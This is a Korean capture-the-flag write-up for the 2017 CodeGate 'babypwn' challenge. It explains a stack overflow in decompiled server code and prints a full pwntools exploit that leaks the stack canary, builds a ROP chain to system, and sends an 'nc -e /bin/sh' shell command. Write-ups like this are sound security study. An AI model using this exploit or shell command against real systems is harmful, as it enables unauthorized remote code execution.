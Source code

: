 ```yaml
---
layout: post
title: "2017 CodeGate babypwn Write up"
excerpt: "Canary&ROP를 공부하기 적합한 문제"
date: 2020-08-17
categories: [system, ctf]
comments: true
---
```


이번에는 보호기법 중 StackCanary를 우회하여 32bit rop를 하는 문제를 풀어보았다. 

<h3> 0x0. Binary
</h3>

| canary  | fortify  | nx      | pie      | relro   |
| ------- | -------- | ------- | -------- | ------- |
| enabled | disabled | enabled | disabled | partial |



<h3>0x1. main
</h3>
코드의 메인을 확인해보면 그냥 소켓통신을 위한 코드인 것 같다.

```c
unsigned int __cdecl main(int a1, char **a2)
{
  socklen_t addr_len; // [esp+20h] [ebp-30h]
  int optval; // [esp+24h] [ebp-2Ch]
  int v5; // [esp+28h] [ebp-28h]
  struct sockaddr addr; // [esp+2Ch] [ebp-24h]
  struct sockaddr v7; // [esp+3Ch] [ebp-14h]
  unsigned int v8; // [esp+4Ch] [ebp-4h]

  v8 = __readgsdword(0x14u);
  if ( a1 == 2 )
    v5 = atoi(a2[1]);
  else
    v5 = 8181;
  dword_804B1BC = socket(2, 1, 0);
  if ( dword_804B1BC == -1 )
  {
    perror("[!] socket Error!");
    exit(1);
  }
  addr.sa_family = 2;
  *(_WORD *)addr.sa_data = htons(v5);
  *(_DWORD *)&addr.sa_data[2] = 0;
  bzero(&addr.sa_data[6], 8u);
  optval = 1;
  setsockopt(dword_804B1BC, 1, 2, &optval, 4u);
  if ( bind(dword_804B1BC, &addr, 0x10u) == -1 )
  {
    perror("[!] bind Error!");
    exit(1);
  }
  if ( listen(dword_804B1BC, 1024) == -1 )
  {
    perror("[!] listen Error!");
    exit(1);
  }
  while ( 1 )
  {
    while ( 1 )
    {
      addr_len = 16;
      fd = accept(dword_804B1BC, &v7, &addr_len);
      if ( fd != -1 )
        break;
      perror("[!] accept Error!");
    }
    if ( !fork() )
      break;
    close(fd);
    while ( waitpid(-1, 0, 1) > 0 )
      ;
  }
  sub_8048B87();
  close(dword_804B1BC);
  close(fd);
  return __readgsdword(0x14u) ^ v8;
}
```

코드를 확인해보면 특별한 값이 없으면 8181포트를 연결한다. 그럼 이제 sub_8048B87등의 기타 함수를 보자.

사실상 메인으로 보여지는 sub_

```c
unsigned int sub_8048A71()
{
  int v1; // [esp+1Ch] [ebp-3Ch]
  char v2; // [esp+24h] [ebp-34h]
  unsigned int v3; // [esp+4Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&v2, 0, 0x28u);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        sub_80488B1("\n===============================\n");
        sub_80488B1("1. Echo\n");
        sub_80488B1("2. Reverse Echo\n");
        sub_80488B1("3. Exit\n");
        sub_80488B1("===============================\n");
        v1 = sub_804895A();
        if ( v1 != 1 )
          break;
        sub_80488B1("Input Your Message : ");
        sub_8048907(&v2, 100);
        sub_80488B1(&v2);
      }
      if ( v1 != 2 )
        break;
      sub_80488B1("Input Your Message : ");
      sub_8048907(&v2, 100);
      sub_80489C8(&v2);
      sub_80488B1(&v2);
    }
    if ( v1 == 3 )
      break;
    sub_80488B1("\n[!] Wrong Input\n");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

를 보면 변수의 메모리는 40인데 입력값을 100을 받는걸 볼 수 있고, 여기서 Bof 취약점이 발생한다.



<h3>0x2 Exploit Vector

이제는 어떻게 공격을 해보면 좋을지 생각해보자.  일단 Bof를 이용해야 하는데 NX bit가 있으므로 ROP를 이용할거다. 그리고 canary가 있으니 canary leak을 해야한다.

우선 canary값을 leak하는 코드이다 . 40바이트만 찍으면 나와야 하는데 41바이트를 해야 출력되는걸 봐서는 canary의 첫 바이트는 0x00임을 알 수 있다. 

```python
from pwn import *

p = remote('localhost',8181)
e = ELF("./babypwn")

ppppr = 0x08048eec
recv_plt = e.plt['recv']
system_plt = e.plt['system']

cmd = 'nc -lvp 10101 -e /bin/sh'

#stack canary leak
p.sendlineafter('> ','1')
p.sendafter(': ','A'*41)
leak = p.recv(1024)[41:44]
canary = u32('\x00' +leak)
print "[+] Stack Canary Leak :" +hex(canary)


p.close()

p = remote('localhost',8181)

p.sendlineafter('> ','1')

#ROP
pay = 'A'*40
pay +=  p32(canary)
pay += 'A'*12

pay += p32(recv_plt)
pay += p32(ppppr)
pay += p32(4)
pay += p32(e.bss())
pay += p32(len(cmd)+1)
pay += p32(0)

pay += p32(system_plt)
pay += 'A'*4
pay += p32(e.bss())

p.sendlineafter(': ', pay)
p.sendlineafter('> ','3')

sleep(1)

p.sendline(cmd)
```



이 문제는 리버스 커넥션을 이용하여 해결하였다. 거진 두달만에 ctf문제를 풀어보는 것 같은데, 많이 분발해야겠다. 

아직도 카나리를 릭하는걸 잘 못하겠다. + 리버스 커넥션 개념도 이번에 처음 이용해보았는데 좀 더 알고 써야겠다.